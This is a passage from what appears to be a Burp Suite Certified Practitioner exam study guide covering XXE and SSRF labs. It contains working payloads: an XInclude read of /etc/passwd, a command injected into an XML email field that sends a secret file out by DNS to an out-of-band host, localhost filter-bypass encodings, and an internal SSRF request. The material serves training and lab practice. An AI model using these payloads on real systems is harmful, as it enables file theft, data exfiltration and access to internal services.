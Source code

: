 ### 4. Exploiting XInclude to retrieve files
```
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```

### 5. Exploiting XXE via image file upload
>https://insinuator.net/2015/03/xxe-injection-in-apache-batik-library-cve-2015-0250/


### 6. Admin user import via XML
![image](https://user-images.githubusercontent.com/58632878/225074086-5357aeac-a445-47d8-87e8-a472bf874f6d.png)
```
<?xml version="1.0" encoding="UTF-8"?>
<users>
    <user>
        <username>Example1</username>
        <email>example1@domain.com&`nslookup -q=cname $(cat /home/carlos/secret).burp.oastify.com`</email>
    </user>
</users>
``` 


# Server-side request forgery (SSRF)
## Approach
One of my favorites, quite easy to understand.  
**ATTENTION:** If you find an SSRF vulnerability on exam, you can use it to read the files by accessing an internal-only service running on locahost on port 6566.  
  
In addition to lab cases, I've got some other useful techniques about this type:  
SSRF Bypass:
```
▶️Type in http://2130706433 instead of http://127.0.0.1
▶️Hex Encoding 127.0.0.1 translates to 0x7f.0x0.0x0.0x1
▶️Octal Encoding 127.0.0.1 translates to 0177.0.0.01
▶️Mixed Encoding 127.0.0.1 translates to 0177.0.0.0x1

https://h.43z.one/ipconverter/
```
![image](https://user-images.githubusercontent.com/58632878/224699478-48309584-4c49-4c06-9714-5d19a245df72.png)  

>**Like XML, the place to find SSRF is at /product/stock check.**  

![da](https://user-images.githubusercontent.com/58632878/224700641-25eaaaea-c69c-48ca-8d5a-92c2d197963a.png)  
  
>**There is also another place for SSRF, but it will be covered in [HTTP Host header attacks](https://github.com/DingyShark/BurpSuiteCertifiedPractitioner#http-host-header-attacks).**

## Labs
### 1. Basic SSRF against another back-end system
>Need to scan internal network to find IP with 8080 port: 
```
stockApi=http://192.168.0.34:8080/admin
```
